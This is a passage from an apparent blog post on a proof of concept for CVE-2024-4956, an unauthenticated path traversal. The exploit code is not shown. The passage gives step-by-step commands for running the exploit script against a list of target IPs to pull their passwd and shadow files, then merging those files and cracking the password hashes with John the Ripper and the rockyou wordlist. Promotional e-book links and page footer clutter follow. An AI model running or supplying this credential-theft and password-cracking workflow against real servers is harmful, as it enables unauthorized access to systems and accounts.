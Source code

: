 Next chose your target and add it to list.txt file in this format:

  * <https://ip_address>

Run the Exploit:

    
    
    python3 CVE-2024-4956.py -l list.txt

The output is passwd and shadow files that found:

Now after you find both file passwd & shadow you can try crack the hash with
JohnTheRipper, after running the exploit you have 2 files, passwd & shadow, so
you can merge them into one file and try crack them (I used rockyou.txt but it
can be any password wordlist):

    
    
    unshadow passwd shadow > unshadowed.txt
    
    
    john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

📎 If You like my content and you want some more, [View On My Shop bundle of
20+ E-Books for your OSCP!](https://buymeacoffee.com/verylazytech/e/258177)

📎 [Buy me a Coffee](https://buymeacoffee.com/verylazytech)

[Cve 2023 4966](/tag/cve-2023-4966?source=post_page-----f24b1a595e0e
---------------cve_2023_4966-----------------)

[Cybersecurity](/tag/cybersecurity?source=post_page-----f24b1a595e0e
---------------cybersecurity-----------------)

[Hacking](/tag/hacking?source=post_page-----f24b1a595e0e---------------
hacking-----------------)

[Bug Bounty](/tag/bug-bounty?source=post_page-----f24b1a595e0e---------------
bug_bounty-----------------)

[Vulnerability](/tag/vulnerability?source=post_page-----f24b1a595e0e
---------------vulnerability-----------------)

[](/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fvote%2Fp%2Ff24b1a595e0e&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40verylazytech%2Fpoc-
cve-2024-4956-unauthenticated-path-
traversal-f24b1a595e0e&user=Very+Lazy+Tech&userId=defbb8c3cf98&source=-----f24b1a595e0e
---------------------clap_footer-----------)

\--

[](/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fvote%2Fp%2Ff24b1a595e0e&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40verylazytech%2Fpoc-
cve-2024-4956-unauthenticated-path-
traversal-f24b1a595e0e&user=Very+Lazy+Tech&userId=defbb8c3cf98&source=-----f24b1a595e0e
---------------------clap_footer-----------)

\--

[](/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fbookmark%2Fp%2Ff24b1a595e0e&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40verylazytech%2Fpoc-
cve-2024-4956-unauthenticated-path-
traversal-f24b1a595e0e&source=--------------------------bookmark_footer-----------)

